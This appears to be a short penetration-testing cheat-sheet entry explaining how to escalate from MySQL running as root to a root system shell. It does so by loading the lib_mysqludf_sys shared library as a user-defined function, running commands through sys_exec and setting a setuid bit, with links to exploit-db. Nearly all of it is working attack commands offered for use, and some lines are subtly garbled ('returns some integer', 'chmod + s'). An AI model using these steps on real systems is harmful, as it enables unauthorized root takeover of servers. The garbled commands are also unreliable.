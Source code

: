 # SQL

### MySQL running as root

If root access on MySQL then create a user defined function to escalate to root shell https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/ https://www.exploit-db.com/exploits/1518/

Steps: copy 1518.so over or lib\_mysqludf\_sys.so over to target (located on kali under sqlmap directory) /usr/share/sqlmap/udf/mysql/linux/32/lib\_mysqludf\_sys.so\_ /usr/share/sqlmap/udf/mysql/linux/64/lib\_mysqludf\_sys.so\_

```
mysql -u root
use mysql;
create table hack(line blob);
insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns some integer soname'lib_mysqludf_sys.so';
```

Test function:

```
select sys_exec('id >/tmp/out; chown user:user /tmp/out');
quit
cat /tmp/out
```

Use function to run a setuid program:

```
select sys_exec('chmod + s /tmp/setuid');
/tmp/setuid
```
